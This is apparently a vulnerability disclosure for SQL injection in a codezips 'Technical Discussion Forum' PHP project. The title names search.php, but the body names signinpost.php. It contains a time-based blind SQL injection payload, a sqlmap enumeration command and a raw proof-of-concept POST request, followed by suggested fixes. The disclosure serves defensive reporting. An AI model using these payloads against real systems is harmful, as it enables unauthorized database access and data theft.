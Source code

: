 # Technical Discussion Forum Using PHP With Source Code  V1.0 search.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Technical Discussion Forum Using PHP With Source Code V1.0`

## Software Link

- `https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/`

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the 'signinpost.php' file of  the 'Technical Discussion Forum Using PHP With Source Code ' project. The reason for this issue is that attackers inject malicious code from the parameter  'username' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  ![](./image/1.png)

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Technical Discussion Forum Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signinpost.php" file. This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: Username Parameter

```
sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 7188 FROM (SELECT(SLEEP(5)))JiSV) AND 'CsMe'='CsMe&password=12323&submit=SignIn
```

<img src="./image/2.png" style="zoom:150%;" />

```
//sqlmap
python sqlmap.py -r url.txt --current-db --current-user --is-dba
```

```
poc
POST /signinpost.php HTTP/1.1
Host: 192.168.75.220
Content-Length: 42
Cache-Control: max-age=0
Origin: http://192.168.75.220
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.220/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: metabase.DEVICE=e51030e7-51d8-429c-b737-59e6ee18ae6c; __test=1; PHPSESSID=9vhd24i6sjknqqcj80ddhqsbj3
Connection: close

username=test&password=12323&submit=SignIn
```

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.